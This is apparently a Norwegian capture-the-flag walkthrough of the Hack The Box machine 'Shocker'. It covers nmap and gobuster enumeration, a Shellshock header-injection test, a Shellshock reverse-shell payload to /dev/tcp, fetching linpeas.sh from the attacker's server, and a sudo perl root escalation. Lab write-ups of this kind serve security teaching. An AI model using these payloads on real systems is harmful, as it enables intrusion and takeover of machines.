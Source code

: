 # Shocker
### nmap

```
nmap -sV -sC 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-14 20:19 CET
Nmap scan report for 10.10.10.56
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

### Hva vi gjør:
Det første vi gjør er å gå inn på nettsiden, der ser vi ikke mye annet dette:
<img src="website.png">
<p>Deretter kjører vi gobuster for å finne directories i nettsiden. Vi finner cgi-bin, server-status og /icons/READme.</p>
Jeg vil gjerne se mer av cgi-bin, så jeg kjører gobuster videre fra /cgi-bin/

```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,pl
```
Vi finner kjapt: <b>user.sh</b>.
<p>Med litt kjapp google søk finner vi denne <a href="https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock">artikklen</a></p>
Vi kjører en test:

```
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://10.10.10.56/cgi-bin/user.sh

vulnerable

Content-Type: text/plain
Just an uptime test script
```
Dette betyr vi kan injecte commands til maskinen og vi gjør da et reverse shell!

```
ncat -lvnp 1234

curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/xx.xx.xx.xx/1234 0>&1" http://localhost/cgi-bin/hello.sh
```

Og vi har shell!
<p>
<img src="shell.png">
<p>
Vi får user flag i /home/shelly.
  
```
cat user.txt
2ec24e11320026xxxxxxxxxx
```
  
### Root
  Vi overfører linpeas.sh til maskinen.
  #### Vår maskin:
```
  python3 -m http.server
 ```
  #### Målets maskin:
  ```
  wget xx.xx.xx.xx:8000/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```
Linpeas forteller at shelly kan kjøre perl uten passord som sudo. <a href="https://gtfobins.github.io/">GTFObins</a> er en fantastisk side for å finne exploits for root esculation for slikt, og vi finner en kommando der som gir oss root.
  
  ```
  perl -e 'exec "/bin/sh";'
  whoami
  root
  cd /root
  cat root.txt
  xxxxxxxxxxxxxxxxxxxxxxxxxx
  ```
  
